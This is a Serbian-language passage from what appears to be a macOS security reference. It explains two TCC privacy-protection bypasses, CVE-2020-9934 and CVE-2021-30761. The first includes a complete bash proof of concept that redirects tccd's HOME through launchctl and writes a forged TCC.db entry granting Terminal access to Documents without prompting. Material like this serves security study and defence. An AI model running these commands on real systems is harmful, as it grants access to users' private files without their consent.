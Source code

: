 ## Po ponašanju aplikacije

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

**tccd daemon** u korisničkom prostoru koristi **`HOME`** **env** promenljivu za pristup TCC korisničkoj bazi podataka iz: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

Prema [ovom Stack Exchange postu](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) i zato što TCC daemon radi putem `launchd` unutar trenutne korisničke domene, moguće je **kontrolisati sve environment promenljive** koje mu se prosleđuju.\
Stoga, **napadač može postaviti `$HOME` environment** promenljivu u **`launchctl`** da pokazuje na **kontrolisani** **direktorijum**, **restartovati** **TCC** daemon, a zatim **direktno izmeniti TCC bazu podataka** kako bi sebi dao **sve dostupne TCC privilegije** bez ikakvog upita korisniku.\
PoC:

```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump
$> sqlite3 TCC.db "INSERT INTO access
VALUES('kTCCServiceSystemPolicyDocumentsFolder',
'com.apple.Terminal', 0, 1, 1,
X'fade0c000000003000000001000000060000000200000012636f6d2e6170706c652e5465726d696e616c000000000003',
NULL,
NULL,
'UNUSED',
NULL,
NULL,
1333333333333337);"
# list Documents directory without prompting the end user
$> ls ~/Documents
```

### CVE-2021-30761 - Beleške

Beleške su imale pristup TCC zaštićenim lokacijama, ali kada se napravi beleška, ona se **kreira na lokaciji koja nije zaštićena**. Dakle, mogli ste zatražiti od beleški da kopiraju zaštićenu datoteku u belešku (tako da se nalazi na lokaciji koja nije zaštićena) i zatim pristupiti datoteci:

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>
